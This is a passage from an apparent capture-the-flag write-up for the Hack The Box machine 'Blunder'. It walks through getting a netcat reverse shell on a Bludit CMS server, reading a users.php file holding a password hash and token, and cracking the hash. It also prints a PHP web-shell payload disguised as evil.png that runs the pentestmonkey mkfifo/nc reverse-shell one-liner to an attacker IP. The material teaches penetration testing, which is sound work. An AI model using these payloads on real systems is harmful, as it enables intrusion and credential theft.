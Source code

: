 Then I visit http://blunder.htb/bl-content/tmp/temp/evil.png and get my reverse shell:

```
root@kali:/home/kali/htb/blunder# nc -nlvp 1337
Listening on 0.0.0.0 1337
Connection received on 10.129.108.197 50090
whoami
www-data
```

Annoyingly, I cannot elevate this to a tty shell. So I'm stuck with it. I tried all of the tty tricks, and I even tried to nc out.

Just outside of the bludit directory, there's another. For a newer version.

Inside I find a users.php file with creds.

```
cat users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""}
}
```

https://md5decrypt.net/en/Sha1/ found the hash:
faca404fd5c0a31cf1897b823c695c85cffeb98d : Password120 

I want a better shell however. So I go to pentestmonkey and fcheck out their netcat reverse shell one liner 
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.51 1337 >/tmp/f`

So evil.png will look like this:

```
root@kali:/home/kali/htb/blunder# cat evil.png 
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.51 1337 >/tmp/f"); ?>
root@kali:/home/kali/htb/blunder# 
```

